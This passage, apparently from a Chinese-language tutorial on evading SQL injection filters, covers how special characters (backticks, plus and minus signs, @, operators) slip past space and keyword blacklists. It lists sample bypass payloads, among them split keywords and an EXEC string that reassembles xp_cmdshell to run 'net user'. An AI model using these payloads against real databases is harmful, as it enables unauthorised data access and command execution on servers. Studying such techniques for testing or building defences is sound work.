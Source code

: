 MySQL、PostgreSQL、Oracle它们都有许多自己的函数，基于黑名单的filter，要想涵盖这么多东西从实际上来说不太可能而且代价太大，因此黑名单的确是更适合处理已知的情况
  

  
### f) 特殊符号
  
这里我把非字母数字的字符都规在了特殊符号一类，这些符号有特殊的含义和用法涉及信息量比前面提到的几种都要多
  
先看下下面的几个例子
  
```
  
1.使用反引号`，例如select `version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用
  
2.神奇的"-+."，select+id-1+1.from users; '+'是用于字符串连接的，'-'和'.'在此也用于连接，可以逃过空格和关键字过滤
  
3.@符号，select@^1.from users; @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量
  
4.Mysql function() as xxx  也可不用as和空格　　 select-count(id)test from users;  //绕过空格限制
  
```
  
可见使用这些字符的确是能做很多事，也证实了那句老话只有想不到没有做不到
  
笔者搜罗了部分可能发挥大作用的字符(这里未包括`'`、`*`、`/` 等在内，考虑到前面已经出现较多次了)
  
`、~、!、@、%、()、[]、.、-、+ 、|、%00
  

  
举例
  
关键字拆分
  
```
  
'se'+'lec'+'t'
  
%S%E%L%E%C%T 1
  
1.aspx?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"')
  
or --+2=- -!!!'2
  
id=1+(UnI)(oN)+(SeL)(EcT)
  
```
  
本节最后再给出一些和这些字符多少有点关系的操作符供参考
  
`> > , <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN`
  

  
使用这些"特殊符号"实现绕过是一件很细微的事情，一方面各数据库对符号的处理是不尽相同的，另一方面你得充分了解这些符号的特性和使用方法才能会考虑利用其实现绕过
  

  
### g) HTTP参数控制
  
这里HTTP参数控制除了对查询语句的参数进行篡改，还包括HTTP方法、HTTP头的控制
  